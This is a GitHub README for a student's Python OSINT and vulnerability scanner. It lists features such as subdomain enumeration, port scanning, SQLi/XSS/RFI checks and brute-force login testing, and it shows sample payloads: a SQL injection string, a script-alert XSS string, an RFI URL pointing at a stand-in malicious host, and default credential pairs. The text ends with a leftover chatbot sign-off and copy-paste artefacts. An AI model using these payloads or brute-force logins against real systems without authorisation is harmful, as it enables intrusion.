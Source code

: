 # Vuln-OSINT-Tool
Security scanner and osint tool
# 🛡️ SecurityScanner v2.0

**SecurityScanner v2.0** is a Python-based cybersecurity tool for performing **OSINT (Open Source Intelligence)** and **vulnerability assessments** on web servers and cloud infrastructure. It combines reconnaissance, scanning, and reporting into a single command-line utility.

---

## 🔍 Features

- 🌐 **OSINT Module**
  - Subdomain Enumeration
  - Open Port Scanning with Banner Grabbing
  - Basic OS Fingerprinting
  - Shodan Lookup (with API key)

- 🛡️ **Vulnerability Scanner**
  - SQL Injection (GET & POST)
  - Cross-Site Scripting (XSS - Stored & Reflected)
  - Command Injection
  - Directory Traversal
  - Weak Password Detection (Brute-force login)
  - Remote File Inclusion (RFI)
  - CSRF Detection
  - Server Misconfiguration
  - Insecure Cookies

- 📄 **Report Generation**
  - Professional **DOCX** and **PDF** report formats
  - Includes vulnerability summary, OSINT results, and timestamps

---

## ⚙️ Installation

### 📌 Requirements

- Python 3.8+
- Install the required packages:

```bash
pip install python-docx reportlab requests dnspython
🚀 Usage
bash
Copy
Edit
python kian1.py
Choose Scan Type:
markdown
Copy
Edit
1. OSINT Module
2. Vulnerability Scanner Module
3. Both (Comprehensive Scan)
🔐 For Shodan lookup, set your API key as an environment variable:

bash
Copy
Edit
export SHODAN_API_KEY=your_api_key_here  # Linux/macOS
set SHODAN_API_KEY=your_api_key_here     # Windows
🧪 Example Vulnerability Payloads Tested
SQLi: ' OR '1'='1 --

XSS: <script>alert('XSS')</script>

RFI: ?file=http://malicious.site/malware.txt

Weak Login: admin:admin, root:root, etc.

🖼️ Screenshots (Suggested)
Tool Startup Screen

SQLi Payload Result

Subdomain Discovery Output

Generated DOCX/PDF Report Preview

📁 Output
Reports are generated with a timestamp and saved in:

Copy
Edit
Security_Scan_Report_YYYY-MM-DD_HH-MM-SS.docx
Security_Scan_Report_YYYY-MM-DD_HH-MM-SS.pdf
🧩 Challenges Solved
Async port scanning with timeout control

Dynamic subdomain resolution

Secure Shodan integration

Clean report formatting using docx and reportlab

🛠️ Future Enhancements
Add full SQLMap integration

Auto-export JSON results

Build a web GUI with Flask or Streamlit

Docker support for deployment

📜 Disclaimer
This tool is created strictly for educational and ethical testing purposes. Do not use it against any system without proper authorization.

👨‍💻 Author
Chanukya Keerthi
Final Year BTech Student – Cybersecurity

javascript
Copy
Edit

Let me know if you want this saved as a `.md` file for GitHub or a `.txt` format instead.
